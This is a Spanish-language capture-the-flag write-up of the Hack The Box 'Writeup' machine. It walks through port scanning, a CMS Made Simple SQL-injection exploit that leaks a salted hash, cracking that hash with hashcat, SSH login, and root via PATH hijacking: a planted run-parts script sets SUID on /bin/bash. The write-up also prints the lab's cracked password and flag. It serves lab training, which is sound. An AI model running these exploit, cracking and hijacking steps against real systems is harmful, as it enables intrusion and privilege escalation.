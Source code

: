 - Tags: #web_enumeration #linux #pathhijacking #process_enumeration #cracking_hash_salt

[!Portada](/assets/images/WriteUp/portada.png)

# RECONOCIMIENTO
----------

- Verificación de `SO`

```bash
ping -c 1 10.10.10.138
```

- Escaneo de puertos abiertos dentro de la maquina

```bash
namp -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.138 -oG allPorts
```

- Información mas detallada sobre los servicios que corren por detrás de los puertos abiertos

```bash
nmap -p80,22 -sCV 10.10.10.138 -oN targeted
```

- Script de reconocimiento básico sobre los directorios abiertos

```bash
nmap -p80 --script=http-enum 10.10.10.138 -oN webScan
```

- Información básica sobre la pagina web

```bash
whatweb http://writeup.htb/writeup/
```

---------
# EXPLOTACIÓN
-----------

- **Nos damos cuenta de que es un CMS Made Simple 2019**

![Pasted image 20240829225020.png](/assets/images/WriteUp/Pastedimage20240829225020.png)

- **Ejecutamos el exploit y lo que sacamos de el es lo siguiente:**

```bash
python2.7 46635.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

----------
# CRACKEO DE PASSWORDS
---------

**Como vemos encontramos dos hashes, uno es un hash `md5` normal y otro pone `salt` , por lo que sabemos que la password se ha hasheado con un `salt`, por lo que para descifrar dicho `hash` haremos lo siguiente:**

>Fichero hash.txt
```bash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

**Hemos puesto el hash al principio separado por `:` el salt**

>Comando de hashcat:


```bash
hashcat -m 20 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
```

- Resultado:

```bash
File: cracked.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

-------------
# SSH
-------

```bash
❯ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug 29 13:25:30 2024 from 10.10.16.4
jkr@writeup:~$
```

**USER**

```bash
jkr@writeup:~$ cat user.txt 
a7e8af276747a411dc39b0206d00e219
jkr@writeup:~$
```

-----------
# ESCALADA DE PRIVILEGIOS
----------

- **Al ejecutar el comando `id` vemos lo siguiente:**

```bash
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

- **Como vemos hay un grupo `staff` que se sale de lo normal, por lo que vamos a ver que es lo que hace este grupo en especifico.**

>`STAFF`
- `Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.`

**Por lo que al ser del grupo `staff` podemos escribir en `usr/local/bin` & `usr/local/sbin`**

>Ambas rutas suelen estar en la variable de entorno $PATH del usuario root, lo que significa
>lo que significa que podríamos reemplazar un programa que root probablemente ejecute fuera de esos directorios con un archivo malicioso que contenga una carga útil que nos permita escalar nuestros privilegios que contenga una carga útil que nos permita escalar nuestros privilegios.

- **Para ver los procesos que esta ejecutando el usuario `root` en el sistema hacemos lo siguiente**

`Ejecutamos el script pspy`

```bash
jkr@writeup:/tmp/$ ./pspy32
```

----------
# PATH HIJACKING
----------

**Al ejecutar la herramienta vemos lo siguiente interesante:**

```bash
<...SNIP...>
2019/06/09 08:45:43 CMD: UID=0 PID=8528 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8529 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8530 | sshd: jkr [priv]
2019/06/09 08:45:43 CMD: UID=0 PID=8531 | sh -c /usr/bin/env -i
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --
lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/06/09 08:45:43 CMD: UID=0 PID=8532 | run-parts --lsbsysinit /etc/update-
motd.d
2019/06/09 08:45:43 CMD: UID=0 PID=8533 | /bin/sh /etc/update-motd.d/10-uname
<...SNIP...>
```

Como vemos se esta haciendo una llamada a la función `run-parts`, en el directorio `/bin` cada vez que un cliente nuevo se conecta por ssh. Por lo que podemos hacer es crear un script llamado `run-parts` que haga lo siguiente:

```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```

**Esto lo que hará es que como el sistema empezara buscando por el principio del `PATH` hasta encontrar el binario `run-parts`, nosotros ponemos nuestro binario malicioso al principio del `PATH` que tenemos permisos de escritura y esto en vez de hacer las funciones de `run-parts` nos proporcionara una `/bin/bash suid`**

- De ultimas ejecutar un `bash -p` y nos dará una shell `root`.
